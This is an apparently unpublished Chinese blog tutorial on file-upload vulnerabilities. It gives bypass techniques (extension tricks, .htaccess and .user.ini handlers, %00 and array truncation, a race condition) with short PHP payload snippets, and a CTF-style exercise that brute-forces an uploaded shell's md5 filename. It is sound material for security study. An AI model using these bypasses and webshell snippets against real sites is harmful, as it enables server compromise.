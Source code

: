 ```yaml
---
layout: post
title: File-Upload
subtitle: File-Upload
date: 2025-06-17 16:22
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

## 1. 文件上传漏洞介绍

几乎每个网站中都会有文件上传的功能，譬如上传头像、视频、压缩包等。网站上传功能点未对客户端上传的文件进行严格的限制和过滤，导致恶意用户将一些恶意的文件或脚本上传到服务器并 url 访问执行，进而达到控制网站的目的，这就是文件上传漏洞。

### 1.1. 文件上传漏洞前提

1. 能成功上传木马或脚本
2. 知道上传后的路径
3. 上传的木马或脚本能被执行
4. 图片马需要配合文件包含漏洞或文件解析漏洞使用

## 2. 文件上传漏洞利用

### 2.1. 前端绕过

上传.php.jpg 文件，bp 抓包修改后缀

```http
filename="shell.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo();?>
```

![image.png](https://img.ghostliner.top/BVGH0r.png)

### 2.2. 其他文件格式

一般 php可执行文件格式：`php` `php2` `php3` `php4` `php5` `phtml`

原理：apache `httpd.config` 文件配置

```
AddType application/x-httpd-php .php .phtml .php3
```

### 2.3. 配置文件利用

**条件：可以上传配置文件**

可利用 apache 配置文件 `.htaccess`

```
<FilesMatch "webshell">
Sethandler application/x-httpd-php
</FilesMatch>
# or
AddHandler application/x-httpd-php .xxx
```

**条件：上传目录存在 php 文件，且必须运行在 fastcgi 模式**

php 配置文件 `.user.ini`

```ini
auto_prepend_file = 123.txt
auto_append_file = 123.txt
```

当访问上传目录中的 php 文件时，自动加载 `123.txt`

### 2.4. 二次渲染

上传图片经二次渲染时，可通过010比较前后两个图片未修改部分，将代码插入其中

### 2.5. 标签绕过

```php
<script language="php">eval();</script>
```

```php
<?=eval();?>
```

### 2.6. 条件竞争

上传 `shell.php` 内容：

```php
<?php fputs(fopen('php.php','w'),'<?php phpinfo();?>');?>
```

bp 循环上传、访问 `shell.php`

### 2.7. 截断绕过

%00 截断（要求 php 版本小于 5.3.4，php 的 magic_quotes_gpc 为 OFF 状态）

#### 2.7.1. get 截断

![image.png](https://img.ghostliner.top/yKCXlN.png)

#### 2.7.2. post 截断

将 `%00` 进行 url 转码，请求体内容不会自动转码

![image.png](https://img.ghostliner.top/Uxyrhj.png)

#### 2.7.3. 数组截断

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

分析代码：

`$file[count($file) - 1]`，正常情况是获取$file 数组最后一个下标数据，`count()` 函数在统计数组个数时只统计所有已定义元素，当 `save_name[1]` 未定义时，返回值为 2.

构造 payload

![image.png](https://img.ghostliner.top/8KeRaf.png)

### 2.8. 其他绕过方式

大写 `.PHP`、双写 `.pphphp` 、末尾加点，末尾加空格 `.php.` `.php. .` 、`.php::$data`

## 3. 例题

代码提示：

![image.png](https://img.ghostliner.top/VxNkxg.png)

```php
$files = @$_FILES["files"]
# 获取文件全名
$file_name = $files["name"]
# 获取文件后缀
$file_ext = substr($file_name,strrpos($file_name,".")+1)
# 生成新文件名
# md5(文件名随机数).后缀
md5($file_name.rand(1,99999)).".".
```

上传一句话木马 `shell.php`，使用 bp 爆破

设置 payload

![image.png](https://img.ghostliner.top/LTYLMa.png)

设置随机数 1-99999

![image.png](https://img.ghostliner.top/ie02HT.png)

设置前缀：shell.php，
设置进行 MD5 加密

![image.png](https://img.ghostliner.top/C1HCkb.png)

开始攻击，过滤状态码

![image.png](https://img.ghostliner.top/VALax3.png)

得到结果：`a4bb0a293d789ae48fecb913b1348e2f.php`

![image.png](https://img.ghostliner.top/Eiltrx.png)
